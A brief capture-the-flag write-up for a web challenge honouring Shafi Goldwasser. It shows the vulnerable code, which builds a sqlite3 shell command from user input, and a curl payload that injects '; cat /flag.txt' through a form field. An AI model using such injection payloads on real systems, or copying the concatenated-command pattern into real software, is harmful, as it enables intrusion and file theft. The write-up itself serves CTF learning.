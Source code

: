# Shaffi Goldwater

## Prompt

[Shafrira Goldwasser](https://en.wikipedia.org/wiki/Shafi_Goldwasser) (Hebrew: שפרירה גולדווסר; born 1959) is an Israeli-American computer scientist and winner of the Turing Award in 2012. She is the RSA Professor of Electrical Engineering and Computer Science at Massachusetts Institute of Technology; a professor of mathematical sciences at the Weizmann Institute of Science, Israel; the director of the Simons Institute for the Theory of Computing at the University of California, Berkeley; and co-founder and chief scientist of Duality Technologies.

Chal: I mad this [webapp](https://cyberheroines-web-srv4.chals.io/) but I couldnt prove it was secure. In honor of [this Turing Award winner](https://www.youtube.com/watch?v=DfJ8W49R0rI), prove it is zero secure by returning the flag.


## Solution

Command Injection (into a prepared sql statement) ``query = 'sqlite3 database.db "SELECT biography FROM cyberheroines WHERE name=\'' + str(name) +'\'\"'``

You can bring back the flag with ``curl -X POST -d "heroine_name=AdaLovelace\"%20;%20cat%20/flag.txt;echo%20\"" https://cyberheroines-web-srv4.chals.io``

